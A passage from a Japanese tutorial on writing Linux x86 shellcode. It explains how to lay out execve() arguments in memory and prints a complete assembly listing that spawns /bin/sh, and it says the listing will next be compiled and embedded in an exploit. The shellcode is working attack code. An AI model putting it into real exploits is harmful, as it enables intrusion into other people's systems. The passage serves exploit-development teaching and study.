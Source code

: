 ●execve()の引き数データ

　前のコードではexecve()への第一引き数と第二引き数を別のアドレスに設定し
ていました。これはスタンドアロン用のプログラムであれば実現できるのですが、
今回のような使用目的には利用できません。そこで「/bin/sh」を確保しているメ
モリの後に続けて第二引数用の文字列を設定します。

    ffffb0          ffffb7
----+---------------+----+--------+----+-------
    | / b i n / s h | 00 | ffffb0 | 00 | 
----+---------------+----+--------+----+-------

　これにはlea命令の所で紹介したオフセットを利用します。オフセットはlea以
外の命令でも使えます。ebxにffffb0が、eaxに0が入っているとすると、「movl 
%eax, 7(%ebx)」はffffb0+7の場所に0を入れるという意味になります。文字列の
終わりには0をいれて置かなければならないので、「/bin/sh」の直後に0を入まし
た。同じように「movl %ebx, 8(%ebx)」とやればffffb0をffffb8の場所に入れる
ことになります。
　ここまでできれば、ebxには文字列のアドレスが入っていますし、ecxにebxの中
のアドレス+8のアドレスをleaで入ればexecve()の引き数が作れます。

●できあがったコード

　以上の問題点を解決したコードのサンプルを次に示します。

-----　shellcode.s
.globl main

main:
    jmp    ONE

TWO:
    popl   %ebx
    xorl   %eax,   %eax
    movl   %eax,   7(%ebx)
    movl   %ebx,   8(%ebx)
    movl   %eax,   12(%ebx)
    movb   $11,    %al
    leal   8(%ebx),   %ecx
    leal   12(%ebx),  %edx
    int    $0x80

ONE:
    call    TWO
    .string "/bin/sh"
-----

　それでは次章以降で、このコードを機械語に変換し、exploitに埋め込んで動作
させて見ましょう。


■0x07.) バイトコードへの変換

　バイトコードは機械語コードのことですが、ソースコードを機械語に変換する
にはコンパイラを用います。アセンブリ言語はアセンブラというソフトで機械語
に変換しますが、以前紹介したgccはアセンブラも兼ねています。先ほどのコード
にshellcode.sという名前をつけた場合には次のようにしてコンパイルします。
